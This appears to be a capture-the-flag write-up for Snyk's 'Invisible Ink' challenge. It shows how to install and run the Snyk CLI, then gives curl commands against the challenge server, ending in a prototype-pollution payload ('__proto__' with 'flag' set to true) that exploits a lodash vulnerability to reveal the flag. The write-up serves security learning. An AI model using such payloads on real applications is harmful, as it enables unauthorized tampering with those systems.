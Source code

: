 # Objective

Retrive a flag throuh a POST request manipulating the value through a vulnerability

# Resources to install

Link: https://ctf-101.snyk.io/challenges#Invisible%20Ink
Server: http://35.211.53.53:8000/

Expose hidden vulnerabilities in the web application.

Hint: download Snyk CLI scans to the packet.json -> 
https://github.com/snyk/snyk#installation

Install npm if you don't have ii yet:

```
*$sudo apt-get install npm*
```

Now install snyk CLI:

```
*$npm install snyk@latest -g*
```

You need to access to snyk before you can run the command to test the package->

```
*$snyk auth  (I suggest to access with gitHub)*
```

Now you have to install the package

***what is package.json*** -> https://blog.ezekielekunola.com/understanding-the-package.json-file

```
*$npm install package.json*
```

Run this command into the folder with package.json, where you have just ran the previous command:

```
*$snyk monitor*
```

This command will show you the current vulnerabilities found.
Possible  response:

Explore this snapshot at https://app.snyk.io/org/emanuelepicas/project/3137722f-04f4-4af7-8a0e-2952b5192a51/history/f2123751-8d69-448f-83d6-87c2d005d96b

Notifications about newly disclosed issues related to these dependencies will be emailed to you.

Click on the link generated here you will find the current Vunerabilities



Browsing into the ***server*** to hack, you will find a response, which will suggest you a request to do.
Below there is the command to run:

```
*$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message": "ping"}'* 
```

***Response***
{"userID":"::ffff:82.57.151.149","time":1651490382169,"message":"ping","flag":"disabled"} 

If we take a look at the file index.js, we can see that the script will output the flag if the value of the flag is on true.


We need to manipulate the object to retrive the flag using a vulnerabilities that we can find from the previous command: "snyk monitor"

A good one could be prototipe pollution:

https://security.snyk.io/vuln/SNYK-JS-LODASH-567746

This could be a possible solution:

```
*$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message":"ping","__proto__":{"flag":"true"}}'*
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651497940769,"message":"ping","flag":"SNYK{FLAGTOFIND}"} 
